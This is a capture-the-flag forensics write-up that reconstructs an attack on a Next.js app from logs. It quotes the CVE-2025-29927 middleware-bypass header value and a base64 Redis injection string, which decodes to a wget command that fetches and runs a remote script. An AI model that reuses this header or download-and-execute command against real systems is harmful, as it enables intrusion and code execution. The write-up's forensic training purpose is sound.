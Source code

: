 ```yaml
---
layout: post
title:  "NeuroSync-D"
date:   2025-06-09 12:07:00 -0400
categories: HTB-sherlock DFIR very-easy
tags: CTF writeup log 
image:
    path: assets/img/htb/NeuroSync/banner.png
---
```


### CHALLENGE DESCRIPTION
NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

### SOLUTION 

**What version of Next.js is the application using?**
```bash
grep -a10 -i 'next.js' * 
```

<details>
<summary><b>Answer</b></summary>
15.1.0
</details>

**What local port is the Next.js-based application running on?**
<details>
<summary><b>Answer</b></summary>
3000
</details>

**A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?**

Search `CVE Next.js 2025` on Google

<details>
<summary><b>Answer</b></summary>
CVE-2025-29927
</details>

**The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?**

> **Hint:** Look for web requests with HTTP status 200.

We just need to see what the first file is, so we use `head`

```bash
grep  -i '200' * | head
```
<details>
<summary><b>Answer</b></summary>
main-app.js
</details>

**Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?**

We can get the answer from above

<details>
<summary><b>Answer</b></summary>
/api/bci/analytics
</details>

**How many requests to this endpoint have resulted in an "Unauthorized" response?**

> **Hint:** Look for web requests with HTTP status 401.


```bash
grep  -i '401' *
```

<details>
<summary><b>Answer</b></summary>
5
</details>

**When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?**

We can see the last failed request is 2025-04-01 11:38:04, so we can look from that timestamp.

<details>
<summary><b>Answer</b></summary>
2025-04-01 11:38:05
</details>

**Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?**
```bash
grep  -i 'middleware' * 
```

<details>
<summary><b>Answer</b></summary>
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
</details>

**The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?**
```bash
grep  -i 'port' *
```
<details>
<summary><b>Answer</b></summary>
4000
</details>

**After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?**
<details>
<summary><b>Answer</b></summary>
/logs
</details>

**When the vulnerable endpoint found was used maliciously for the first time?**
<details>
<summary><b>Answer</b></summary>
2025-04-01 11:39:01
</details>

**What is the attack name the endpoint is vulnerable to?**
<details>
<summary><b>Answer</b></summary>
Local File Inclusion
</details>

**What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?**
<details>
<summary><b>Answer</b></summary>
secret.key
</details>

**Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?**

```bash
grep  -i '|' * 
```

<details>
<summary><b>Answer</b></summary>
OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb
</details>

**Once decoded, what is the command?**

It is a `Base64`, decode it by `base64 -d`

<details>
<summary><b>Answer</b></summary>
wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
</details>

